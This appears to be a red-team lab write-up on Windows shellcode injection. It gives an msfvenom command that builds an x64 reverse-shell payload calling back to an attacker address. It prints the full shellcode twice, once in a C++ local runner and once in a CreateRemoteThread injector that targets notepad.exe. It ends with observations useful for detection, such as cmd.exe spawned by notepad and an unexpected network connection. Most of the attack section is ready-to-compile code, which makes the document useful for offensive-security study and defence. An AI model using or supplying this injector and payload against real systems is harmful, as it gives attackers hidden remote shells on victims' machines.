








# CreateRemoteThread Shellcode Injection

This lab explores some classic ways of injecting shellcode into a process memory and executing it.

## Executing Shellcode in Local Process

First of - a simple test of how to execute the shellcode directly from a C++ program.

Generating shellcode for a reverse shell:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```



C++ code to injectd and invoke the shellcode:


```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```


Before compiling, for the sake of curiosity, let's have a look at the generated shellcode binary in a disassembler so we can get a rough idea of how our C++ code gets translated into machine code for x64:



Also for the sake of curiosity, I wanted to see how the injected shellcode looks in the injected process and to see where it actually is. With a 32-bit shellcode binary \(msfvenom -p windows/shell\_reverse\_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d\), the shellcode is nicely located in the main thread's stack:



Back to the x64 bit shellcode - compiling and executing the binary gives us the anticipated reverse shell:




## Executing Shellcode in Remote Process

The below code will inject the shellcode into a notepad.exe process with PID 5428 which will initiate a reverse shell back to the attacker:


```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```




Below shows notepad before shellcode injection - it has not initiated any TCP connections yet:



Once the code is compiled and executed, monitoring the API calls taking place on the system reveals that notepad is doing something it should not ever be doing - spawning a cmd.exe and initiating a TCP connection:



Checking the notepad in ProcExplorer again reveals an established TCP connection with a cmd.exe as a child:



Note how the notepad has a `ws2_32.dll` module loaded which should never happen in normal circumstances, since that module is responsible for `sockets` management:



## References














